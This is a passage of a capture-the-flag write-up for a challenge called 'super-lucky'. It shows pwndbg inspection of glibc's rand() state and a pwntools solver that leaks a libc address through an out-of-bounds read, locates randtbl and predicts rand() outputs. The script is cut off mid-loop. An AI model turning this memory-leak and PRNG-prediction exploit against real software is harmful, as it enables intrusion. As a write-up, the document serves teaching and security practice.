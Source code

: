 We can see that indeed this is the result we expected:

```
pwndbg> call rand()
$19 = 1804289383
```

Looking again at the state of `fptr` and `rptr` we can see that both have advanced 4 bytes and only the state at `0x00007ffff7dfe210` has changed as a result of `*fptr += (uint32_t) *rptr;`:

```
pwndbg> x/2gx 0x7ffff7dfe880
0x7ffff7dfe880 <unsafe_state>:	0x00007ffff7dfe214	0x00007ffff7dfe208
pwndbg> x/32wx 0x7ffff7dfe200
0x7ffff7dfe200 <randtbl>:	0x00000003	0x991539b1	0x16a5bce3	0x6774a4cd
0x7ffff7dfe210 <randtbl+16>:	0xd7168acf	0x4e508aaa	0x61048c05	0xf5500617
0x7ffff7dfe220 <randtbl+32>:	0x846b7115	0x6a19892c	0x896a97af	0xdb48f936
0x7ffff7dfe230 <randtbl+48>:	0x14898454	0x37ffd106	0xb58bff9c	0x59e17104
0x7ffff7dfe240 <randtbl+64>:	0xcf918a49	0x09378c83	0x52c7a471	0x8d293ea9
0x7ffff7dfe250 <randtbl+80>:	0x1f4fc301	0xc3db71be	0x39b44e1c	0xf8a44ef9
0x7ffff7dfe260 <randtbl+96>:	0x4c8b80b1	0x19edc328	0x87bf4bdd	0xc9b240e5
0x7ffff7dfe270 <randtbl+112>:	0xe9ee4b1b	0x4382aee7	0x535b6b41	0xf3bec5da
```

### Solver

1) Leak the libc base address using the value of `puts.got`
2) Compute the location of `unsafe_state`
3) Read the value of `rptr` from `unsafe_state`
4) Use all of the remaining reads to read data starting from `randtbl[1]`. Note we only need the first 7 dwords
5) Provide the value of `rand` as a string 7 times by computing it using the table we read previously

```
from pwn import *

io = remote("tamuctf.com", 443, ssl=True, sni="super-lucky")

GOT_PUTS = 0x403f90
LUCKY_NUMBERS = 0x404040
UNSAFE_STATE = 0x1ba740

def read4(addr):
    idx = (addr - LUCKY_NUMBERS) // 4
    io.sendline(str(idx).encode())
    return int(io.readline().decode().split(" ")[-1]) & 0xffffffff

def read8(addr):
    return read4(addr) | (read4(addr + 4) << 32)

io.readuntil(b"Take your pick 0-777:\n")

puts = read8(GOT_PUTS)

libc = ELF("./libc.so.6")
libc.address = puts - libc.sym["puts"]

unsafe_state = libc.address + UNSAFE_STATE

rptr = read8(unsafe_state + 8)

randtbl = []
for i in range(17):
    randtbl.append(read4(rptr + (i * 4)))

for i in range(7):
```